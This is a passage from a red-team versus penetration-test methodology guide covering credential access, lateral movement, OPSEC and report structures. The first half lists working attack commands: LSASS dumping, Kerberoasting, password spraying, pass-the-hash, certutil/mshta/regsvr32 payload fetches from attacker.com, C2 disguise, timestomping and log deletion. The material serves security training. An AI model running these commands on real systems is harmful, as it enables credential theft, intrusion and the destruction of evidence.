```

### 12.4 Credential Access

#### T1003.001 — LSASS Memory Dump
```bash
# Mimikatz (very noisy — EDR will kill it; for pentest PoC only)
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Stealthier: use ProcDump (Microsoft signed binary - LOLBin)
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# Then parse offline:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"

# Even stealthier: use Nanodump (avoids common EDR hooks)
nanodump.x64.exe --write C:\Windows\Temp\doc.docx --valid

# Parse on attacker machine:
pypykatz lsa minidump lsass.dmp
```

#### T1558.003 — Kerberoasting
```bash
# From Linux with valid domain credentials
impacket-GetUserSPNs corp.local/jsmith:Password1 \
    -dc-ip 10.10.0.1 -request -outputfile spn_hashes.txt

# From Windows (Rubeus)
Rubeus.exe kerberoast /outfile:hashes.kirbi /format:hashcat /nowrap

# Crack with hashcat
hashcat -m 13100 spn_hashes.txt rockyou.txt -r best64.rule
```

### 12.5 Lateral Movement

#### T1021.002 — SMB / Windows Admin Shares
```bash
# CrackMapExec — password spray then execute
crackmapexec smb 10.10.0.0/24 -u Administrator -p 'Password123' --continue-on-success
crackmapexec smb 10.10.0.5 -u Administrator -p 'Password123' -x "whoami"
crackmapexec smb 10.10.0.5 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:deadbeef...' --exec-method smbexec

# Impacket PSExec (noisy — creates service)
impacket-psexec corp.local/Administrator:Password1@10.10.0.5

# Impacket WMIExec (quieter)
impacket-wmiexec corp.local/Administrator:Password1@10.10.0.5
```

#### T1550.002 — Pass the Hash
```bash
# Using stolen NTLM hash without cracking
impacket-secretsdump corp.local/Administrator:Password1@10.10.0.1
# Output: Administrator:500:aad3b435b51404eeaad3b435b51404ee:HASH:::

# Pass the hash with CME
crackmapexec smb 10.10.0.0/24 -u Administrator \
    -H 'NTLMHASH' --local-auth

# Mimikatz pass-the-hash (Windows)
mimikatz.exe "sekurlsa::pth /user:Administrator /domain:corp.local \
    /ntlm:NTLMHASH /run:cmd.exe"
```

---

## 13. OPSEC Considerations for Red Teaming

### 13.1 Infrastructure OPSEC

**Domain Selection:**
```bash
# Check domain age and reputation before using
# Aged domains (2+ years) are less suspicious than freshly registered ones
whois redteam-domain.com | grep "Creation Date"

# Categorize domain to avoid proxy/firewall blocking
# Most proxies block "Uncategorized" domains
# Use a domain categorization service to pre-categorize as "Technology" or "Business"

# Check domain against threat intel before use
curl "https://urlhaus-api.abuse.ch/v1/host/" \
    -d "host=redteam-domain.com"
```

**C2 Profile Customization (Cobalt Strike Malleable C2):**
```bash
# Example: Mimic legitimate Microsoft traffic
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36";
set sleeptime "45000";   # 45-second check-in interval (blend with legitimate traffic)
set jitter "30";          # 30% jitter to avoid timing analysis

http-get {
    set uri "/MicrosoftUpdate/v5/WindowsDefender/Definition";
    client {
        header "Accept" "text/html,application/xhtml+xml";
        header "Accept-Language" "en-US,en;q=0.5";
        header "Connection" "keep-alive";
    }
}
```

### 13.2 Endpoint OPSEC

**Living off the Land (LOLBins):**
```bash
# Use built-in Windows binaries instead of custom tools
# These generate fewer alerts as they're signed Microsoft binaries

# Execute payload via certutil (T1140)
certutil -urlcache -split -f http://attacker.com/payload.b64 payload.b64
certutil -decode payload.b64 payload.exe

# Download via BITSAdmin (T1197)
bitsadmin /transfer update /download /priority normal \
    http://attacker.com/update.exe C:\Windows\Temp\update.exe

# Execute via Regsvr32 (T1218.010) — bypasses AppLocker
regsvr32 /s /n /u /i:http://attacker.com/file.sct scrobj.dll

# Execute via MSHTA (T1218.005)
mshta.exe http://attacker.com/payload.hta

# WMI execution (T1047) — no new process on target
wmic /node:10.10.0.5 process call create "cmd.exe /c whoami > C:\out.txt"
```

**Timestomping (T1070.006):**
```bash
# Modify file timestamps to blend with surrounding files
# PowerShell
$file = Get-Item "C:\Windows\Temp\implant.exe"
$file.CreationTime = "01/15/2022 09:00:00"
$file.LastWriteTime = "01/15/2022 09:00:00"
$file.LastAccessTime = "01/15/2022 09:00:00"

# Metasploit post module
use post/windows/manage/timestomp
set SESSION 1
set FILE C:\\Windows\\Temp\\implant.exe
run
```

### 13.3 Network OPSEC

```bash
# Use redirectors to protect team server IP
# Nginx redirector config (only forward known C2 URI patterns)
server {
    listen 443 ssl;
    ssl_certificate /etc/ssl/certs/cert.pem;
    ssl_certificate_key /etc/ssl/private/key.pem;

    location /MicrosoftUpdate/v5/ {
        proxy_pass https://TEAMSERVER_IP:443;
        proxy_ssl_verify off;
    }

    # Everything else returns a benign 302 to Microsoft
    location / {
        return 302 https://www.microsoft.com;
    }
}

# Domain fronting via Cloudflare
# Configure Cloudflare worker to forward specific paths to team server
# Traffic appears to come from cloudflare.com in proxy logs
```

### 13.4 Log Cleanup (T1070)

```bash
# Windows — clear event logs (very noisy; only if desperate)
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Selective log deletion (less noisy)
$EventLog = [System.Diagnostics.EventLog]::new("Security")
$EventLog.Entries | Where-Object {$_.EventID -eq 4624 -and $_.TimeGenerated -gt (Get-Date).AddHours(-1)} |
    ForEach-Object { $_.Delete() }

# Linux — remove specific lines from auth.log
sed -i '/attacker_ip/d' /var/log/auth.log
sed -i '/suspicious_command/d' /var/log/bash_history

# Better OPSEC: never generate logs in the first place
# Use in-memory execution; avoid writing to disk; prefer HTTPS C2 over DNS
```

> **Warning:** Log deletion is itself a high-signal IOC. SIEM solutions like Splunk will alert on event log clearing (Event ID 1102 on Windows). Red teams must weigh cleanup value against detection risk.

---

## 14. Reporting Differences

### 14.1 Penetration Test Report Structure

```
1. Cover Page
   - Engagement name, date, version, classification

2. Executive Summary (2–3 pages)
   - Overall risk rating (Critical/High/Medium/Low)
   - Key findings summary (top 3–5 issues)
   - Business impact narrative
   - Remediation priority overview
   - Risk trend (if retest: improved/same/worse)

3. Scope & Methodology
   - In-scope assets
   - Testing methodology (PTES, OWASP)
   - Test dates and testers
   - Limitations and constraints

4. Findings (bulk of report)
   Per finding:
   ├── Title
   ├── Severity (Critical/High/Medium/Low/Informational)
   ├── CVSS v3.1 Score & Vector
   ├── CVE Reference (if applicable)
   ├── MITRE ATT&CK ID (if applicable)
   ├── Description
   ├── Evidence (screenshots, tool output)
   ├── Steps to Reproduce
   ├── Business Impact
   └── Remediation Recommendation

5. Remediation Roadmap
   - Prioritized fix list by severity
   - Short-term (0–30 days): Critical/High
   - Medium-term (30–90 days): Medium
   - Long-term (90+ days): Low/Informational

6. Appendices
   - Raw tool output
   - Full list of tested endpoints
   - Methodology detail
```

### 14.2 Red Team Operation Report Structure

```
1. Cover Page + Classification
   - Threat actor emulated
   - Engagement dates
   - Objectives defined

2. Executive Summary (4–6 pages)
   - Objectives achieved vs. attempted
   - Time-to-detect summary
   - Overall security posture narrative
   - Key recommendations for CISO/board

3. Engagement Overview
   - Objectives and crown jewels defined
   - Threat actor profile used
   - RoE summary
   - Team composition (sanitized)

4. Attack Narrative (chronological)
   Day-by-day or phase-by-phase story:
   ├── Date/Time
   ├── Action taken (with ATT&CK TTP ID)
   ├── Whether detected by blue team (Y/N)
   ├── Blue team response (if any)
   └── Operator notes

   Example entry:
   "Day 7 - 14:32: Operator executed Kerberoasting (T1558.003) against
   DC01. 23 service accounts returned. Blue team did NOT alert on this
   activity. No relevant Splunk rule exists for AS-REP/Kerberos TGS
   requests from non-admin workstations."

5. Objectives Assessment
   Per objective:
   ├── Objective: Exfiltrate Q4 financial data
   ├── Result: ACHIEVED (Day 22)
   ├── Path taken: Phishing → foothold on WKSTN04 → lateral to FILESVR02 → NTFS share access
   └── Detection: NOT DETECTED end-to-end

6. ATT&CK Heatmap
   - Visual Navigator export showing all techniques used
   - Color-coded: detected / undetected / partially detected

7. Detection Gap Analysis
   Per detection gap:
   ├── Technique (ATT&CK ID)
   ├── Action taken
   ├── Expected detection: [SIEM rule / EDR policy]
   ├── Actual outcome: Not alerted
   └── Recommendation: Write Splunk SPL / Sigma rule for [specific behavior]

8. Blue Team Findings
   - SOC process weaknesses observed
   - IR playbook gaps
   - Communication failures during response
   - Tool configuration issues (EDR exclusions, SIEM parsing errors)

9. Recommendations
   - Priority 1 (Immediate): Detection gaps for completed attack path
   - Priority 2 (30 days): Infrastructure hardening
   - Priority 3 (90 days): Process/playbook improvements

10. Appendices
    - Full operator log (timestamps + commands)
    - C2 infrastructure details (for blue team to update blocklists)
    - IOCs generated during engagement (for retrospective hunt)
    - Sigma rules written during debrief
```

### 14.3 Reporting Tone Comparison

| Aspect | Pentest Report | Red Team Report |
|---|---|---|
| **Primary audience** | IT / Dev / Security Engineering | CISO, Board, SOC leadership |
| **Tone** | Technical, prescriptive, fix-focused | Narrative, strategic, capability-focused |
| **Language** | "Vulnerability X allows SQL injection via parameter Y" | "An adversary simulating APT29 maintained undetected access for 34 days" |
| **Success framing** | Found N vulnerabilities across M systems | Achieved X/Y objectives; detected Z times |
| **Blue team feedback** | Not included | Core section of report |
| **IOC sharing** | N/A | Full IOC list for retrospective hunt |
| **ATT&CK mapping** | Optional / partial | Mandatory, full coverage |
| **Remediation detail** | High (code-level fix guidance) | Medium (process/detection rule guidance) |

> **Note:** Both report types should be treated as **highly sensitive, classified documents**. A pentest report in the wrong hands is essentially a roadmap to compromise your organization. Red team reports are even more sensitive as they reveal detection blind spots.

---

## Summary

| | Penetration Test | Red Team |
|---|---|---|
| **Ask** | "What can be exploited?" | "What can an adversary achieve?" |
| **Answer** | Vulnerability list + remediation | Attack narrative + detection gaps |
| **Duration** | Days to weeks | Weeks to months |
| **Stealth** | Not required | Required |
| **Blue team** | Aware | Blind |
| **Compliance** | Satisfies most frameworks | Does not satisfy; supplements |
| **Best for** | New systems, compliance, vuln baseline | Mature orgs, SOC validation, IR testing |
| **Output** | Vuln report | ATT&CK heatmap + gap report |

Both are valuable. Neither replaces the other. The most mature security programs run both — annual pentests to catch technical debt, and periodic red team operations to stress-test the humans, processes, and tools that defend them.

---

*See also:*
- `02-methodologies/purple-team.md` — Purple team methodology
- `02-methodologies/threat-modeling.md` — Threat modeling approaches
- `03-tools/c2-frameworks.md` — C2 framework deep dives
- `03-tools/active-directory-attacks.md` — AD attack techniques
- `02-methodologies/mitre-attack-navigator.md` — ATT&CK Navigator usage
